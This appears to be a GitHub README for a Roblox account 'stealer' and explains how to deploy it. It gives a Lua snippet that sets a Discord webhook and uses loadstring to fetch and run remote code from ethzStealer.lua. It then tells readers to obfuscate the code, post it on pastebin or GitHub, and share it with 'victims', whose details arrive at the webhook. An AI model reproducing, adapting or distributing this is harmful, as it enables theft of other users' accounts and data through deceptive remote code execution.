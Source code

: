 * theres a risk of u getting banned so use an alt account (rarely)

* EXAMPLE:

```lua
User_Name = "Roblox"
Web_Hook = "https://discord.com/api/webhooks/xxxxxx"
loadstring(game:HttpGet("https://raw.githubusercontent.com/ethz07/ethzScripts-ADM/main/ethzStealer.lua"))()
```
* after u finish it obfuscate the code then make it executable in pastebin github etc.
* after share it to your victims if they execute your code ur gonna get a webhook message and read the includes here u will see details.
* also its not dualhooked if u believe its dualhooked my Discord: **_ethz**
